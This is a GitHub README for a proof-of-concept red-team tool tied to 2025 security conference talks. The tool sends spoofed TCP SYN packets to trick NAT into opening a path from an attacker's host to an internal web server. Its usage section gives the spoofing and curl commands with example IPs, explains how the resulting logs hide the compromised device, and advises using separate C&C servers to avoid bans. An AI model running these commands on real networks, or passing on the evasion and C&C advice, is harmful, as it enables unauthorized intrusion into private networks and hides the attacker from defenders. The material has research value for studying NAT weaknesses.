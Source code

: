# Simple TCP SYN Spoofing to Trigger NAT Traversal
- An easy tool that abuses SNAT and opens a temporary DNAT by sending fake TCP SYN packets. This creates a breakpoint for red teaming under NAT environments!

## Special Thanks
- This method was discovered by Chumy Tsai ([@Jimmy01240397](https://github.com/Jimmy01240397)).
- Note: Latest kernels behave differently. Jimmy01240397 will provide solutions on how to continue using this method with some tricks.

## Reference

- This is a PoC code for Talks: From Spoofing to Tunneling: New Red Team's Networking Techniques for Initial Access and Evasion
    - [Black Hat USA 2025 Briefing](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678)
    - [DEF CON 33 Main Stage](https://defcon.org/html/defcon-33/dc-33-speakers.html#content_60316)
    - [HITCON 2025](https://hitcon.org/2025/en-US/agenda/)

## Usage

1. **Know Your Public IP** (example IP: `9.9.9.9`):

2. **Send a Fake TCP SYN to Trigger NAT on the Compromised Device**  
   - NAT public IP: `2.2.2.2`
   - Compromised device internal IP: `192.168.1.2`
   - Internal web server IP: `192.168.1.3:8080`

    ```bash
    python3 main.py -s <next_attack_victim> -sp <next_attack_victim_port> -d <attacker_public_ip> -dp <attacker_port_to_connect>
    sudo python3 main.py -s 192.168.1.3 -sp 8080 -d 2.2.2.2 -dp 55555
    ```

3. **Now you can directly access** `http://192.168.1.3:8080/` **via** `curl http://2.2.2.2:8080/ --local-port 55555`  on `9.9.9.9` only.

4. **Logs from 192.168.1.3:**

    ```
    python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    9.9.9.9 - - [07/Jun/2025 10:10:08] "GET / HTTP/1.1" 200 -
    ```
    > You will see that the logs show requests coming from 9.9.9.9, making it difficult to associate them with 192.168.1.2.

    > The only way to relate them is by dumping packets on the physical port of 192.168.1.2 and finding the fake packet (MAC source can also be spoofed).

## Best Practices
- Use different IP C&C servers for `192.168.1.2` and `192.168.1.3` to prevent `9.9.9.9` from being banned and losing the C&C connection.

## Demo Video
- [YouTube](https://youtu.be/02bOz_GADDI)

## Disclaimer
This project is intended for educational and research purposes only. Any actions and/or activities related to this code are solely your responsibility. The authors and contributors are not responsible for any misuse or damage caused by this project. Please ensure that you have proper authorization before testing, using, or deploying any part of this code in any environment. Unauthorized use of this code may violate local, state, and federal laws.

## License
This project is licensed under the terms of the MIT license.
